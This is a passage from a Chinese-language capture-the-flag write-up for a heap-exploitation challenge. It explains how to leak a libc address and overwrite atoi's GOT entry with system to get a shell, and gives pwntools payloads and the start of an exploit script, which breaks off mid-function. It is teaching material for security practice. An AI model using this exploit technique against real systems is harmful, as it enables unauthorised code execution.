 ```python
puts_plt = 0x400760
payload = p64(puts_plt)*2
```

10. renew(small) 
11. wipe(big)

重新 renew(small) 把 big_buf 指到 atoi 的 GOT entry 上，之後利用 wipe(big) 來 leak libc function address。

payload :

```python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0) # address of big_buf
payload += p32(1)*3
```

12. renew(small)
13. renew(big)

這裡在 renew 一次 small 設好 inuse bit

payload:

```python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0)
payload += p32(1)*3
```

接著 renew(big) 把 atoi GOT hijack 成 system

這樣在選單的地方不用輸入 1 or 2 or 3 直接輸入 `sh\x00`

就可以造成 atoi('sh') -> system('sh') 拿到 shell。

```python
#!/usr/bin/env python

from pwn import *

r = remote('127.0.0.1', 4000)
#r = remote('52.68.31.117', 9547)

secret_kind = {'small':'1', 'big':'2', 'huge':'3'}


#libc = ELF('libc.so.6')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
atoi_got = 0x602080
free_got = 0x602018
puts_plt = 0x400766

def keep(size, content):
    r.recvuntil('3. Renew secret\n')
    r.sendline('1')
    r.recvuntil('2. Big secret\n')
    r.sendline(secret_kind[size])
    r.recvuntil('Tell me your secret:')
    r.sendline(content)

def wipe(size):
    r.recvuntil('3. Renew secret\n')
    r.sendline('2')
    r.recvuntil('2. Big secret\n')
```

[secret]: https://github.com/lattera/glibc/blob/master/malloc/malloc.c#L3397